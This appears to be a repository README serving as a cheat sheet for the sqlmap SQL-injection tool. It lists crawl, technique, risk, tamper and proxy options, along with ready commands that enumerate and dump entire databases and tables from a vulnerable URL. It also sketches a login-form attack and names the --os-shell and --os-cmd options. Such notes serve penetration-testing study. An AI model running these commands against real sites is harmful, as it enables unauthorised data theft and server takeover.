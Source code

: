 # SQLmap-manual
 
# Overview 

- Techniques          -u
- Crawl              --forms
- Enumeration        --data
- Batch              --headers
- Risk               --user-agent
- Level              --cookie
- Threads            --flush-session
- Verbosity          --output-dir
- Proxy              --tamper
- SQL Injection Via Burp-Suite

# Techniques 

* B: Boolean-based blind
* E: Error-based
* U: Union query-based
* S: Stacked queries 
* T: Time-based blind
* Q: Inline queries 
   --technique-"B"

# Crawl

* Depth 1: http://www.example.com/news
* Depth 2: http://www.example.com/news/newest/
* Depth 3: http://www.example.com/news/newest/terror/
* Depth 4: http://www.example.com/news/newest/terror/country/
     --crawl 3
     
# Verbosity
* 0: show only python tracebacks, error and critical messages.
* 1: show also information and warning messages.
* 2: show also debug messages.
* 3: show also payloads injected.
* 4: show also HTTP requests.
* 5: show also HTTP responses'headers.
* 6: show also HTTP responses'page content
     
# Kali linux   ( command ) 

1.  sqlmap -u http://www.example.com/ --crawl 2 
2.  sqlmap -u http://www.example.com/ --crawl 3 --batch 
3.  sqlmap -u http://www.example.com/ --crawl 3 --technigue="U"                ( U = union )
4.  sqlmap -u http://www.example.com/ --crawl 2 --batch --threads 5            ( 1 to 10 )
5.  sqlmap -u http://www.example.com/ --crawl 2 --batch --risk 2               ( 1 to 3 )
6.  sqlmap -u http://www.example.com/ --crawl 2 --batch --level 1              ( 1 to 5 )
7.  sqlmap -u http://www.example.com/ --crawl 3 --batch -v 4                   ( 0 to 6 )
8.  sqlmap -u http://www.example.com/listproducts.php?cat=? --current-user --current-db --hostname --batch     ( vulnerable website link )
9.  sqlmap -u http://www.example.com/listproducts.php?cat=? --dbs              ( all data base details )
10. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --tables 
11. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --dump
12. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --columns 
13. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --dump-all
14. sqlmap -u http://www.example.com/ --crawl 2 --output-dir="home/ghost/desktop/sql/" --batch
15. sqlmap -u http://www.example.com/ --crawl 2 --headers="Referer:abc.com" -v 4 --batch
16. sqlmap -u http://www.example.com/ --crawl 2 --user-agent="GECKO_CHROME" -v 4 --batch
17. sqlmap -u http://www.example.com/ --crawl 2 --mobile -v 4 
18. sqlmap --list-tempers
19. sqlmap -u http://www.example.com/ --crawl 2 --tamper=base64encode -v 3 --batch

# BRUTE FORCE LOGIN PAGE
* first we need url of login page 
* than we need username && password && login we need to find the value of username , password , login [ by using inspect ].
* for eg username value is going with uname && password value is going with pass && login value is going with submit.
* also we need to check the username && password && login case value is going with userinfo.php 
* sqlmap -u http://www.example.com/login.php --forms         (next step first cat the sql save data)
* sqlmap -u http://www.example.com/userinfo.php --data="uname=abc&pass=abc&login=submit" --dbs

# PROXY
* sqlmap -u http://www.example.com/ --crawl 2 --proxy="127.0.0.1:8080"      ( then go to burp suite )

# Highlights
* --cookie
* --flush-session
* --comment
* --os-shell
* --os-cmd













